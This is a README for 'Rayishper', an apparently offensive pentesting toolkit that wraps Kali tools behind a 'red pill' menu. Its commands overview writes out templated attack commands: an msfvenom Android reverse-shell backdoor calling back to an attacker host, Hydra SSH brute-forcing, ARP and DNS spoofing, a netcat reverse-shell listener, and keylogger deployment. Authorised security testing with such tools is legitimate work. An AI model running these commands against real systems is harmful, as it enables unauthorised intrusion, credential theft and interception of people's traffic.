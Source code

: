 Rayishper Pentesting Toolkit
Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

Table of Contents
Introduction
Features
Installation
Dependencies
Usage
Commands Overview
License
Introduction
Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

Features
Password Cracking: Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
Network Attacks: Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
Payload Generation: Create custom payloads for Android devices using Metasploit.
Social Engineering: Launch social engineering attacks using the SET toolkit.
File and Directory Management: Automate common file and directory operations like viewing, deleting, and scanning.
Script Automation: Convert repetitive manual tasks into automated scripts.
Installation
Clone the Rayishper repository:

bash
Copy code
git clone https://github.com/your-repo/rayishper.git
cd rayishper
Make the script executable:

bash
Copy code
chmod +x rayishper.py
Install the required dependencies:

bash
Copy code
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

Dependencies
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John the Ripper: For password cracking.
Social Engineering Toolkit (SET): For social engineering attacks.
Ensure that Kali Linux is your base operating system as it includes most of these tools pre-installed.

Usage
To run Rayishper:

bash
Copy code
./rayishper.py
Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py
Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py
Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}
Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}
ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}
DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof
License
This project is open-source and available under the MIT License.
